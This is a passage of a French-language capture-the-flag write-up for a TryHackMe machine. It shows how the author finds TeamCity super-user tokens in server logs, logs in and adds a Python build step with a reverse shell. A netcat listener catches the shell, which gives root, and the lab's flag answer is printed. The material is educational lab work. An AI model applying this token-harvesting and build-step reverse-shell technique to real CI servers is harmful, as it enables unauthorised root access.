 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Aug 12 17:22:39 2021 from 10.9.228.66
```

On fait une redirection de port avec ssh.   



On se retrouve sur une page d'identification, on de s'identifier.
On a aussi le nom du site qui est TeamCity.   

```bash
sys-internal@vulnnet-internal:/$ ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  swapfile  sys  TeamCity  tmp  usr  var  vmlinuz  vmlinuz.old

sys-internal@vulnnet-internal:/$ cd TeamCity/

sys-internal@vulnnet-internal:/TeamCity$ cd logs/

sys-internal@vulnnet-internal:/TeamCity$ 
sys-internal@vulnnet-internal:/TeamCity/logs$ grep -r "authentication"
grep: teamcity-nodes.log: Permission denied
grep: teamcity-notifications.log: Permission denied
grep: manager.2021-02-07.log: Permission denied
grep: teamcity-tfs.log: Permission denied
grep: localhost.2021-08-12.log: Permission denied
grep: teamcity-ws.log: Permission denied
grep: teamcity-mavenServer.log: Permission denied
grep: teamcity-cleanup.log: Permission denied
grep: host-manager.2021-02-06.log: Permission denied
grep: manager.2021-08-12.log: Permission denied
grep: localhost.2021-02-06.log: Permission denied
grep: manager.2021-02-06.log: Permission denied
grep: catalina.2021-02-07.log: Permission denied
grep: catalina.2021-08-12.log: Permission denied
grep: teamcity-javaLogging-2021-02-07.log: Permission denied
grep: teamcity-auth.log: Permission denied
grep: teamcity-diagnostics.log: Permission denied
grep: localhost.2021-02-07.log: Permission denied
grep: catalina.2021-02-06.log: Permission denied
grep: teamcity-javaLogging-2021-02-06.log: Permission denied
catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 5934831357942320865 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 5934831357942320865 (use empty username with the token as the password to access the server)
grep: teamcity-javaLogging-2021-08-12.log: Permission denied
grep: teamcity-server.log: Permission denied
grep: host-manager.2021-08-12.log: Permission denied
grep: teamcity-vcs.log: Permission denied
grep: teamcity-activities.log: Permission denied
grep: teamcity-rest.log: Permission denied
grep: host-manager.2021-02-07.log: Permission denied

```

On trouve des tokens pour s'identifier.   

   


 

Il faut créer un projet en mode manuel. 

 

On met ce que l'on veut.

 

On revient sur la page d'acceuil et on clique sur  Edit Project Settings.   

Dans test on créer une nouvelle configuration.   

 

On clique sur le deuxième page.  
On dans Edit Configuration Setting.   
On va dans build steps puis on clique sur add build step.


Dans runner type on choisie python.  
Puis dans les menus déroulant custom script.   
Avec un reverse shell.  

 

On le sauve. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port 1234 pour établire un lien avec le reverse shell.   

```bash
Sur notre interface on clique sur run et on attend.    
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.230.29] 54088
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{e8996faea46df09dba5676dd271c60bd}   
```

On obtient un shell root.  
On lit le flag.    

La réponse est : THM{e8996faea46df09dba5676dd271c60bd}    


